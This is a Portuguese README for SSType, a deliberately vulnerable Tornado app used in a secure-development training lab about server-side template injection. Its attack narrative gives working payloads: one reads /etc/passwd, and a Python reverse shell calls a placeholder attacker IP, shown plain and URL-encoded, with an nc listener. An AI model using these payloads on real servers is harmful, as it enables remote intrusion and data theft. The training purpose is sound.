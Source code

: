 # SSType

[Access content in English](README.md)

<p align="center"><img  src="src/images/ssti-logo.png"/></p>

SSType é um aplicativo web Python simples que contém um exemplo de uma vulnerabilidade de injeção de modelo do lado do servidor no Tornado. Neste exemplo, uma subcategoria específica de Injeção será exemplificada: Server Side Injection ou SSTI.

## Index

- [Definição](#o-que-é-injeção)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/sstype
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Conheça o app 💉

Para entender corretamente como este aplicativo funciona, você pode fazer uma pesquisa usando `name` como uma string de consulta usando um [browser](http://localhost:10001/?name=Vitor) ou usando `curl` em um terminal: 

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Lack of input validation allows injection of OS commands

Após revisar o código da aplicação, foi possível verificar que a entrada do usuário (variável `name` querystring) não está sendo tratada corretamente antes de ser renderizada no template, conforme mostrado nos trechos de código a seguir: 

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se o resultado de `4*4` pode ser renderizado na página:
```
http://localhost:10001/?name={{4*4}}
```

Quando esta requisição chegar à aplicação, `NAMEHERE` será substituído no HTML e executará a matemática, retornando `16`:

```html
<h3>Hello: {{4*4}}</h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

Um invasor pode agora criar qualquer comando malicioso que, em teoria, será executado. O primeiro passo que podemos fazer é tentar ler o conteúdo do arquivo `/etc/passwd`. Para fazer isso, usaremos o seguinte comando Python como a string de consulta `name`:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Excelente! Agora que podemos executar comandos no servidor que hospeda o aplicativo, um script Python malicioso para nos fornecer um shell de alguma forma no servidor da vítima pode ser criado. Vamos dar uma olhada no seguinte exemplo:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell
p=subprocess.call(["/bin/bash","-i"]);
```

Para receber um shell reverso, primeiro precisamos usar `nc` em nosso terminal para ouvir todas as conexões que chegam ao nosso `ATTACKER-IP` e `ATTACKER-PORT` e depois executar este script Python no servidor vítima:

```sh
nc -nlv ATTACKER-PORT
```

Mas como podemos usar esse payload dentro do parâmetro `name`? Para fazer isso, podemos compactá-lo usando múltiplos `;` para separar cada instrução, resultando na seguinte carga útil:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

No entanto, como pode haver alguns caracteres especiais nessa string, precisamos escapar deles antes de injetá-los no aplicativo vulnerável (este [codificador de URL online](https://www.urlencoder.org/) pode ajudar) e esperamos como o Shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após a modificação do código, um invasor não poderá executar comandos no servidor.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs

